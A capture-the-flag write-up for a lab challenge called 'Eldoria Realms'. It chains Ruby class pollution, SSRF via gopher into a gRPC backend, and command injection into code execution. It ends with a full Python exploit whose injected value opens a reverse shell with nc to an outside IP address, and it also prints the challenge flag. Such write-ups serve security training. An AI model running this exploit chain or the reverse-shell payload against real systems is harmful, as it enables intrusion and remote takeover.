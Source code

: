 # Eldoria Realms
Tags: #ruby #class-pollution #ssrf #gopher #grpc #http2 #command-injection 
## TLDR
ruby class pollution -> SSRF -> Command Injection -> RCE
## Description
> A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells inner workings.
## Overview
There are 2 services: an api made with **ruby**, and a **grpc** backend.
## Road to flag
The flag is in `/flag.txt` -> RCE
## Code review
#### Frontend API
- `/connect-realms` and makes a request using **curl** to `realm_url`
```ruby
get "/connect-realm" do
		content_type :json
		if Adventurer.respond_to?(:realm_url)
			realm_url = Adventurer.realm_url
			begin
				uri = URI.parse(realm_url)
				stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
				{ status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
			rescue URI::InvalidURIError => e
				{ status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
			end
		else
			{ status: "Failed to access realm URL" }.to_json
		end
	end
```

`realm_uri` is hardcoded into `Adventurer`
```ruby
class Adventurer
	@@realm_url = "http://eldoria-realm.htb"

	attr_accessor :name, :age, :attributes

	def self.realm_url
		@@realm_url
	end
[ . . . ]
```

- Ruby class pollution in `app.rb` `post "/merge-fates"` -> allows to override `realm_url` leading to **SSRF**
A `Player` object is merged with the json taken in input.
```ruby
post "/merge-fates" do
		content_type :json
		json_input = JSON.parse(request.body.read)
		random_attributes = {
			"class" => ["Warrior", "Mage", "Rogue", "Cleric"].sample,
			"guild" => ["The Unbound", "Order of the Phoenix", "The Fallen", "Guardians of the Realm"].sample,
			"location" => {
				"realm" => "Eldoria",
				"zone" => ["Twilight Fields", "Shadow Woods", "Crystal Caverns", "Flaming Peaks"].sample
			},
			"inventory" => []
		}

		$player = Player.new(
			name: "Valiant Hero",
			age: 21,
			attributes: random_attributes
		)

		$player.merge_with(json_input)
		{ 
			status: "Fates merged", 
			player: { 
				name: $player.name, 
				age: $player.age, 
				attributes: $player.attributes 
			} 
		}.to_json
	end
```

The merge function is vulnerable to class pollution -> https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html.
```ruby
def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
```

`Player` class is derived from `Adventurer`


#### Backend API
- The backend API uses **GRPc**, and has a command injection in `/healthCheck`
```go 
package main

import (
	"app/pb"
	"context"
	"fmt"
	"log"
	"net"
	"os/exec"
	"time"
	"google.golang.org/grpc"
	"google.golang.org/grpc/reflection"
)

type server struct {
	pb.UnimplementedLiveDataServiceServer
	ip   string
	port string
}

[ . . .]

func healthCheck(ip string, port string) error {
	cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
	output, err := cmd.CombinedOutput()
	if err != nil {
		log.Printf("Health check failed: %v, output: %s", err, output)
		return fmt.Errorf("health check failed: %v", err)
	}

	log.Printf("Health check succeeded: output: %s", output)
	return nil
}
```

## Exploitation
1. SSRF
How can I make a valid curl request to the grpc backend?
- It's possible to send raw TCP requests using `curl` and the `gopher` protocol.
- GRPC uses HTTP2, so I have to build a valid packet that I can send with the `gopher` protocol.
  It's possible to build a raw HTTP2 request using [`hyperframe`](https://github.com/python-hyper/hyperframe/).

Note: this works because curl `7.70.0` is used.
   ```dockerfile
   RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz && \
       tar xfz curl-7.70.0.tar.gz && \
       cd curl-7.70.0/ && \
       ./configure --with-ssl --enable-shared && \
       make -j16 && \
       make install && \
       ldconfig
   ```
   
2. Class pollution
I can override `realm_uri` by sending a request `POST /merge-fates` with this payload: `{"class": { "superclass": { "realm_url": f"gopher://localhost:50051/_{payload}"}}}`


Flag: `HTB{p0llut3_4nd_h1t_pr0toc0lz_w_4_sw1tch_4252fa6a48618f89a46262d3e1855ba2}`
## Full exploit
```python
from hyperframe.frame import HeadersFrame, DataFrame, SettingsFrame
from hpack import Encoder
import struct
from urllib.parse import quote
import live_data_pb2
import requests

def create_health_check_request(ip, port):
    request = live_data_pb2.HealthCheckRequest()
    request.ip = ip
    request.port = port
    return request.SerializeToString()

preface = b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"
request_payload = create_health_check_request(ip="127.0.0.1", port="$(nc -c sh 37.27.184.43 4444)")

# Add gRPC prefix to the payload (5 bytes)
grpc_payload = struct.pack(">BI", 0, len(request_payload)) + request_payload  # Compression flag + length
# Build HTTP/2 frames
stream_id = 1
encoder = Encoder()
# SETTINGS frame (required for handshake)
settings_frame = SettingsFrame(stream_id=0)
settings = settings_frame.serialize()
# HEADERS frame (with required pseudo-headers)
headers = [
    (":method", "POST"),
    (":path", "/live.LiveDataService/CheckHealth"),
    (":scheme", "http"),
    (":authority", "localhost:50051"),
    ("content-type", "application/grpc"),
    ("te", "trailers"),
]
headers_frame = HeadersFrame(stream_id=stream_id)
headers_frame.data = encoder.encode(headers)
headers_frame.flags.add("END_HEADERS")
headers = headers_frame.serialize()
# DATA frame (gRPC payload)
data_frame = DataFrame(stream_id=stream_id)
data_frame.data = grpc_payload
data_frame.flags.add("END_STREAM")
data = data_frame.serialize()

payload = quote(preface + settings + headers + data)

url = "http://94.237.50.164:49095/"

requests.post(url+"/merge-fates", json={"class": { "superclass": { "realm_url": f"gopher://localhost:50051/_{payload}"}}})

response = requests.get(url+"/connect-realm")
print(response.text)
```